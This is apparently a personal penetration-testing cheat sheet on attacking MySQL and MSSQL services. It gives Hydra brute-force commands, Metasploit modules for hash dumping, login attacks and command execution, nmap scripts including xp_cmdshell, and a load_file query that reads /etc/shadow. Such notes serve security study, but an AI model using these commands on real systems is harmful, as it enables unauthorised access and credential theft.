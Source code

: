 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. [Hydra](#Hydra)
	2. [Msfconsole](#msfconsole)
	3. [nmap](#nmap)

---
# Overview 

SQL - Simple Query Language

Relational database that is used by a lot of websites to store data.

---
## #Ports
- 3306 : mysql
- 1433 : MSSQL

## Usage
`mysql -h 192.168.34.3 -u root`
- `show database;` : shows databases
- `use books;` : go in to database
- `select count * from authors;` : show authors
- `help;` : help menu
- `select load_file("/etc/shadow");` : can see dir access by user from msfconsole mysql_writable_dirs

## Related Services
- MySql : database
- PostgreSql : database
- MariaDB : database
- MSSql : Microsoft SQL

---
# #Tools

## Hydra
dictionary attack
```bash
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt 192.168.45.3 mysql
```

---

## msfconsole
### MYSQL
- use auxiliary/scanner/mysql/mysql_writable_dirs
	- set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
	- setg rhosts 192.168.34.2
		- setg : set globaly
	- set verbose false
	- advanced : advanced options
	- set password "" : null password
	- run
- use auxiliary/scanner/mysql/mysql_hashdump
	- set username root
	- set password "" : doesn't show in options
	- run
	- gives user hashes
- use auxiliary/scanner/mysql/mysql_login
	- set rhost addr
	- set pass_file /usr/share/metasploit-framework/data/wordlists/unix_password.txt
	- set stop_on_success true
	- set username root
	- run
#### Useful modules
- auxiliary/scanner/mysql/mysql_version
- auxiliary/scanner/mysql/mysql_login
- auxiliary/admin/mysql/mysql_enum
- auxiliary/admin/mysql/mysql_sql
- auxiliary/scanner/mysql/mysql_file_enum
- auxiliary/scanner/mysql/mysql_hashdump
- auxiliary/scanner/mysql/mysql_schemadump
- auxiliary/scanner/mysql/mysql_writable_dirs

---

### MSSQL
- use auxiliary/scanner/mssql/mssql_login
	- setg rhosts addr
	- set user_file /root/desktop/wordlists/common_users.txt
	- set pass_file /root/dektop/wordlists/100-common-passwords.txt
	- run
- use auxiliary/admin/mssql/mssql_enum
	- run
- use auxiliary/admin/mssql/mssql_enum_sql_logins
- use auxiliary/admin/mssql/mssql_exec
	- set cmd whoami
	- set username sa ???
- use auxiliary/admin/mssql/mssql_enum_domain_accounts
	- run

---

## nmap
### MSQL
- --script
	- mysql-empty-password
		- show users with no pass
	- mysql-info
		- shows capabilities and other info
	- mysql-users
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-databases
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-variables
		- --script-args="mysqluser='root',mysqlpass=''"
		- look for **datadir:** locations
	- mysql-audit
		- --script-args="mysql-audit.username='root',mysql-audit.password='', mysql-audit.filename='usr/share/nmap/nselib/data/mysql-cis.audit"
	- mysqldump-hashes
		- --script-args="username='root',password=''"
	- mysql-query
		- --script-args="query='select count(\*) from books',username='root',password=''"
### MSSQL
- --script
	- ms-sql-info
		- information
	- ms-sql-ntlm-info
		- `--script-args instance-port=1433`
		- version info
	- ms-sql-brute 
		- ` --script-args userdb=/usr/wordlists/common_users.txt,passdb=/usr/wordlists/100-common-passwords.txt`
	- ms-sql-empty-password
	- ms-query
		- `-script-args mssql.username-admin,mssql.password=anamaria,ms-sql.query.query='SELECT * FROM master..syslogins' -oN output.txt`
	- ms-sql-dump-hashes 
		- `--script-args mssql.username=admin,mssql.password=anamaria`
	- ms-sql-xp-cmdshell 
		- `--script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"`
			- `ms-sql-xp-cmshell.cm="type c:\flag.txt"`
				- type is windows version of cat
